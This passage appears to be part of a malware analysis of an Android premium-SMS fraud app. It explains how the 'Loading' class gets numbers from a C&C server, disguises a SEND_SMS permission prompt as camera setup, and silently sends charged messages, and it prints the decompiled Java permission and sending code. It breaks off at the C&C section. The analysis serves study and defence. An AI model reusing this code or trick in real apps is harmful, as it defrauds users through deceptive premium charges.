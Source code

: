 This is the **main payload** of the SMS premium malware operation. We have seen that this is where sms are sent but how does it know the phone number to send or the text content and even how it makes the user send it without the user suspecting any thing. 

This class handles user interaction, permission requests, SMS sending, and integration with `BootService`. Simply It fetches premium SMS details from a C&C server based on the device's SIM operator, tricks the user into granting permissions and clicking a button (disguised as part of the camera setup), sends the SMS, and triggers reporting via `BootService`. Upon success, it launches the legitimate `CameraActivity` as if nothing happened .

And here is how it works in details 

##### 0. Gaining your permission

```java
 public void onClick(View v) {
	if (Build.VERSION.SDK_INT < 23) {
		if (Loading.this.service != null && Loading.this.content != null) {
		Loading.this.sendMessage(Loading.this.service, Loading.this.content);
		return;
	}
	int checkCallPhonePermission = ContextCompat.checkSelfPermission(Loading.this.getApplicationContext(), "android.permission.SEND_SMS");
	
	if (Loading.this.videoShare.equals(AppEventsConstants.EVENT_PARAM_VALUE_YES) && checkCallPhonePermission == 0) {
	 if (Loading.this.service != null && Loading.this.content != null) {
		  Loading.this.sendMessage(Loading.this.service, Loading.this.content);
          return;
		   }
                return;
       }
    ActivityCompat.requestPermissions(Loading.this, new String[]{"android.permission.SEND_SMS"}, 1);

 
 public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults[0] == 0) {
            if (this.service != null && this.content != null) {
                sendMessage(this.service, this.content);
                return;
            }
            return;
        }
        Toast.makeText(this, "Please allow access！", 1).show();
    }

```

Handles SMS permission grant, sends if approved; toasts denial.

##### 1. Command & Control Communication

